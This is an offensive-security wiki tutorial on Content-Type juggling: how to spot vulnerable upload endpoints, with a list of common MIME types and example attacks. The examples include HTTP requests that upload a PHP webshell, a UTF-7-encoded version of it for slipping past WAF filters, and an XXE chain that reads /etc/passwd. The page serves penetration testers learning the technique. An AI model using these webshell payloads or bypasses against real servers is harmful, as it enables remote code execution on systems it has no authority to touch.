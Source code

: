 ```yaml
---
authors: ShutdownRepo
---
```


# Content-Type juggling

## Theory

Content-Type juggling exploits the lack of checking on the `Content-Type` header when submitting an HTTP request.

Most of the time, Content-Type juggling is a way to carry out other attacks such as [unrestricted-file-upload](../file-inclusion/lfi-to-rce/file-upload) or [xxe-injection](#example-of-a-content-type-juggling-attack-on-api-leading-to-xxe) (see [examples](#examples)).

> [!TIP]
> The `Content-Type` header is used to indicate the MIME type of the resource.
> 
> * In requests, (such as `POST` or `PUT`), the client tells the server what type of data was actually sent.
> * In responses, a `Content-Type` header tells the client what type of content is actually being returned. Browsers may try to detect the MIME type of content by inspecting it rather than by respecting the value of this header.

> [!WARNING]
> If the [XCTO (X-Content-Type-Options)](../../config/http-headers/index#xcto-x-content-type-options) security header is present, it will be difficult to perform the `Content-Type` juggling, as indicated in [mime-sniffing](../../config/http-headers/mime-sniffing). The XCTO security header can be used to indicate that the MIME types advertised in the `Content-Type` headers should be followed and not be changed by the browser depending on the page's content. Websites that implement this security header with the `nosniff` directive must also include a valid `Content-Type` header in their responses.

## Practice

### Identify a target vulnerable to Content-Type juggling

In order to identify if the target is vulnerable to `Content-Type` juggling, testers need to answer the following questions :

* Is there a post request with value(s) and `Content-Type` header ?
* Is the `X-Content-Type-Options` security header not present ?
* Can the `Content-Type` header be edited, and the `POST` request still be submitted successfully ?

If the answer is yes to the questions above, then one should be able to perform `Content-Type` juggling and might find a way to perform other attacks as a result:

* If one can switch to `application/xml`, [XXE](../xxe-injection/index) should be tried.
* If one can switch to `application/zip`, uploading malicious zip file should be tried.
* If one can switch to `application/php`, uploading PHP payloads should be tried.
* If one can switch to `application/image`, uploading [malicious image](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html) should be tried.

One should not stick to this list and always try several Content-Type values.

::: details List of the most common Content-Type values

Type application
```
application/java-archive
application/EDI-X12
application/EDIFACT
application/javascript
application/octet-stream
application/ogg
application/pdf
application/xhtml+xml
application/x-shockwave-flash
application/json
application/ld+json
application/xml
application/zip
application/x-www-form-urlencoded
```

Type audio
```
audio/mpeg
audio/x-ms-wma
audio/vnd.rn-realaudio
audio/x-wav
```
Type image
```
image/gif
image/jpeg
image/png
image/tiff
image/vnd.microsoft.icon
image/x-icon
image/vnd.djvu
image/svg+xml
```

Type multipart
```
multipart/mixed
multipart/alternative
multipart/related (using by MHTML (HTML mail).)
multipart/form-data
```

Type text
```
text/css
text/csv
text/html
text/javascript (obsolete)
text/plain
text/xml
```

Type video
```
video/mpeg
video/mp4
video/quicktime
video/x-ms-wmv
video/x-msvideo
video/x-flv
video/webm
```

Type vnd
```
application/vnd.android.package-archive
application/vnd.oasis.opendocument.text
application/vnd.oasis.opendocument.spreadsheet
application/vnd.oasis.opendocument.presentation
application/vnd.oasis.opendocument.graphics
application/vnd.ms-excel
application/vnd.openxmlformats-officedocument.spreadsheetml.sheet
application/vnd.ms-powerpoint
application/vnd.openxmlformats-officedocument.presentationml.presentation
application/msword
application/vnd.openxmlformats-officedocument.wordprocessingml.document
application/vnd.mozilla.xul+xml
```

:::


### Example attacks

::: details PHP payload upload and RCE
Let's take this POST request following the submit of a form. Two `Content-Type` headers can be seen, the second one is interesting since an attacker could be juggling the content-type to upload a malicious PHP file.

```HTTP
POST /foo HTTP/1.1
[....request...]
-----------------------------974767299852498929531610575
Content-Disposition: form-data; name="myFile"; filename="foo.txt"
Content-Type: text/plain

(content of the uploaded file foo.txt)
-----------------------------974767299852498929531610575--
```

The attacker is able to upload a PHP webshell thanks to the Content-Type juggling, changing it from `text/plain` to `application/php`

```HTTP
POST /foo HTTP/1.1
[....request...]
-----------------------------974767299852498929531610575
Content-Disposition: form-data; name="myFile"; filename="foo.php"
Content-Type: application/php

 <?php system($_GET["cmd"]); ?>
-----------------------------974767299852498929531610575--
```
:::


::: details Bypass a WAF
Sometimes, the `Content-Type` header has an additional field: `charset=<value>`.

```
Content-Type: text/html; charset=utf-8
```

In this context, an attacker can try to edit the charset (e.g. from `utf-8` to `utf-7`) to bypass security controls such as Web Application Firewalls (WAFs), or regular expressions that check the value of a form. This technique cannot bypass the impact of the XCTO security header though (see the [Theory](#theory) part).

Below is an example where an attacker is able to perform Content-Type juggling but is getting blocked by a WAF. To bypass it, "charset juggling" can be performed.


```HTTP
POST /foo HTTP/1.1
Content-Type: application/php; charset=utf-8
Content-Length: 19

<?php system($_GET["cmd"]); ?>
```



```HTTP
POST /foo HTTP/1.1
Content-Type: application/php; charset=utf-7
Content-Length: 19

+ADw-?php system(+ACQAXw-GET+AFsAIg-cmd+ACIAXQ-)+ADs- ?+AD4-
```

:::


::: details API attack, leading to XXE
In the following request, the application normally sends JSON content (`Content-Type: application/json`).

If the target is vulnerable to Content-Type juggling and XXE, an attacker could attempt to modify the content-type header to `application/xml` and put some malicious XML to exploit an XXE.

![Performing Content-Type juggling](assets/CT-JUGGLING-3.png)

By combining Content-Type juggling with another attack, it's possible to extract information from the target (more about it in [XXE injection](../xxe-injection/index)).

![Crafting a XXE payload to extract /etc/passwd](assets/CT-JUGGLING-4.png)

For more insight on this attack, refer to [the writeup of the web challenge "BNV" from Google CTF 2019](https://medium.com/hmif-itb/googlectf-2019-web-bnv-writeup-nicholas-rianto-putra-medium-b8e2d86d78b2), by [Nicholaz99](https://github.com/Nicholaz99).
:::


## Resources

[https://medium.com/hmif-itb/googlectf-2019-web-bnv-writeup-nicholas-rianto-putra-medium-b8e2d86d78b2](https://medium.com/hmif-itb/googlectf-2019-web-bnv-writeup-nicholas-rianto-putra-medium-b8e2d86d78b2)

[https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#content-type-from-json-to-xee](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#content-type-from-json-to-xee)
Content-Type from JSON to XEE

[https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#waf-and-protections-bypasses](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#waf-and-protections-bypasses)
WAF and protections bypasses

[https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Type](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Type)
